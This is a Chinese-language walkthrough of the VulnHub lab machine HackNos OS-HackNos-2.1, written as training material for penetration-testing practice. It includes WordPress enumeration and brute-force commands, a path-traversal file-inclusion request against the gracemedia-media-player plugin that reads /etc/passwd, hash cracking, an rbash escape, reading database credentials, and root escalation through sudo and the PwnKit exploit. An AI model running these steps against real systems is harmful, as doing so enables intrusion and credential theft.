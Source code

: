 # HACKNOS: OS-HACKNOS-2.1

2025.02.18 https://www.vulnhub.com/entry/hacknos-os-hacknos-21,403/

[video](https://www.bilibili.com/video/BV1RpAceoECE/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

gobuster 扫描出一个 http://192.168.5.40/tsweb/ 打开后是一个 wordpress，在页面底部发现一个邮箱，可能存在的系统用户名为 rahulgehlaut ，尝试用 wpscan 进行枚举：

```
wpscan --url http://192.168.5.40/tsweb/ -e u,ap,at --plugins-detection mixed
```

发现了一个用户名 user，尝试登陆页面爆破：

```
wpscan --url http://192.168.5.40/tsweb/ -U user -P ~/tools/dict/passwd_1050.txt -t 32
```

无结果。

在看看 wp 的插件是否有可以利用的漏洞，发现插件 akismet、classic-editor、gracemedia-media-player 其中 gracemedia-media-player 有文件包含漏洞：

```
curl http://192.168.5.40/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
rohit:x:1000:1000:hackNos:/home/rohit:/bin/bash
flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/:1001:1003::/home/flag:/bin/rbash
```

尝试对 flag 用户的哈希进行破解，得到密码: topsecret

尝试 ssh 登陆并且绕过 rbash:

```
ssh flag@192.168.5.40 -t "bash --noprofile"
```

进入/var/www/html 文件夹找到 wp 的数据库配置文件：

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpuser' );
define( 'DB_PASSWORD', 'hackNos-2.com' );
define( 'DB_HOST', 'localhost' );
```

尝试用数据库的密码切换到 rohit 用户，切换失败。

通过枚举，发现另外一个 hash 备份文件：

```
flag@hacknos:/$ cat /var/backups/passbkp/md5-hash
$1$rohit$01Dl0NQKtgfeL08fGrggi0
```

尝试解密哈希得到密码为: !%hack41 使用此密码切换到 rohit。

先获得了 user flag:

```
rohit@hacknos:~$ cat user.txt
############################################
 __    __   _______   ______    ______
/  |  /  | /       | /      \  /      \
$$ |  $$ |/$$$$$$$/ /$$$$$$  |/$$$$$$  |
$$ |  $$ |$$      \ $$    $$ |$$ |
$$ \__$$ | $$$$$$  |$$$$$$$$/ $$ |
$$    $$/ /     $$/ $$       |$$ |
 $$$$$$/  $$$$$$$/   $$$$$$$/ $$/



############################################

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```

sudo -l 发现 ALL，直接提权到 root:

```
rohit@hacknos:~$ sudo su
root@hacknos:/home/rohit# cd /root
root@hacknos:~# ls
root.txt
root@hacknos:~# cat root.txt
 _______                         __              __  __     #
/       \                       /  |            /  |/  |    #
$$$$$$$  |  ______    ______   _$$ |_          _$$ |$$ |_   #
$$ |__$$ | /      \  /      \ / $$   |        / $$  $$   |  #
$$    $$< /$$$$$$  |/$$$$$$  |$$$$$$/         $$$$$$$$$$/   #
$$$$$$$  |$$ |  $$ |$$ |  $$ |  $$ | __       / $$  $$   |  #
$$ |  $$ |$$ \__$$ |$$ \__$$ |  $$ |/  |      $$$$$$$$$$/   #
$$ |  $$ |$$    $$/ $$    $$/   $$  $$/         $$ |$$ |    #
$$/   $$/  $$$$$$/   $$$$$$/     $$$$/          $$/ $$/     #
#############################################################

#############################################################
MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Blog : www.hackNos.com

Author : Rahul Gehlaut

linkedin : https://www.linkedin.com/in/rahulgehlaut/
#############################################################
```

第二种提权路径：发现 CVE-2021-4034 PwnKit ，直接上传 pwnkit 同样也可以提权到 root：

```
flag@hacknos:/tmp$ ./pwnkit
root@hacknos:/tmp# cd /root
root@hacknos:~# ls -al
```
